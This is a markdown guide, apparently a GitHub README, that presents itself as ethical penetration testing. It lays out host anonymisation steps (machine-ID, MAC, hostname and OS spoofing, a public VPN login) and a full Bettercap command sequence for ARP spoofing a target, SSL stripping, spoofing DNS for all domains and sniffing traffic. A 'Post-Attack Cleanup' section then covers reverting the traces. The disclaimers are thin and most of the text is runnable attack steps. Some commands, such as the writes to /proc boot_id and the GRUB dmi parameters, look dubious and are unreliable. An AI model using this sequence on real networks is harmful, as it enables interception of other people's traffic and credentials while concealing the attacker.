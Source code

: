 

```markdown
# Ultimate Guide to System Anonymity & Ethical Penetration Testing

> **Disclaimer**: This guide is for **educational purposes only**. Unauthorized network interception is illegal. Always obtain explicit permission and comply with local laws.

---

## 🔒 Step 1: System Anonymization

### 🆔 Randomize Machine Identifiers
```bash
# Reset machine IDs
echo -n | sudo tee /etc/machine-id
dbus-uuidgen | sudo tee /etc/machine-id
sudo cp /etc/machine-id /var/lib/dbus/machine-id
echo "00000000-0000-0000-0000-000000000000" | sudo tee /proc/sys/kernel/random/boot_id
```

### 🖥️ GRUB Configuration Spoofing
1. Edit GRUB config:
   ```bash
   sudo nano /etc/default/grub
   ```
2. Add these parameters:
   ```ini
   GRUB_CMDLINE_LINUX="dmi.modname=AnonBook dmi.product=Anonymous-Laptop dmi.bios=1.0.0"
   ```
3. Apply changes:
   ```bash
   sudo update-grub
   ```

### 🐧 OS Identity Masking
```bash
sudo nano /etc/os-release  # Change "Kali GNU/Linux" to "Generic Linux"
```

### 📡 MAC Address Spoofing
```bash
sudo ip link set dev <interface> down
sudo macchanger -r <interface>  # -r = random
sudo ip link set dev <interface> up
torify curl ifconfig.me  # Verify Tor connectivity
```

---

## 🛡️ Step 2: VPN Setup (OpenVPN Example)
```bash
cd ~/Downloads/vpn
sudo openvpn vpnbook-de220-udp25000.ovpn
```
**Credentials** (Verify at [vpnbook.com](https://www.vpnbook.com) via Tor):
- Username: `vpnbook`
- Password: `zm396a4`

---

## 🔪 Step 3: Terminate Data-Leaking Services
```bash
sudo systemctl stop dropbox google-drive slack telegram-desktop
```

---

## 🏷️ Step 4: Hostname Obfuscation
```bash
sudo hostnamectl set-hostname "localhost"
```

---

## ⚔️ Step 5: Anonymous Network Analysis (Bettercap)

### 🕵️♂️ Launch Bettercap
```bash
sudo bettercap -iface wlan0
```

### 🔍 In Bettercap Session:
```ruby
net.probe on
net.show  # Identify targets
arp.spoof.targets <target_IP>
set arp.spoof.fullduplex true
arp.spoof on
set http.proxy.sslstrip true
set dns.spoof.domains *
http.proxy on
net.sniff on  # Traffic inspection only!
dns.spoof on
```

### 🔄 Port Redirection
```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
```

---

## 🧼 Post-Attack Cleanup

### ↪️ Revert Changes
```bash
# Restore original MAC
sudo macchanger -p <interface>

# Remove iptables rule
sudo iptables -t nat -D PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080

# Reset hostname
sudo hostnamectl set-hostname <original_name>
```

---

## 🚨 Critical Notes
1. **Legal Compliance**: Always operate within authorized networks
2. **VM Recommendation**: Use virtual machines for reversible changes
3. **Credential Hygiene**: VPN credentials change frequently - always verify
4. **Network Safety**: Never execute `net.sniff` on untrusted networks
5. **Full Anonymity**: Combine Tor + VPN for maximum privacy

```diff
- Warning: Improper use may lead to legal consequences!
+ Ethical hacking strengthens security - never exploit without permission
```

> Made with ❤️ for cybersecurity enthusiasts. Knowledge is power - use it responsibly.
```
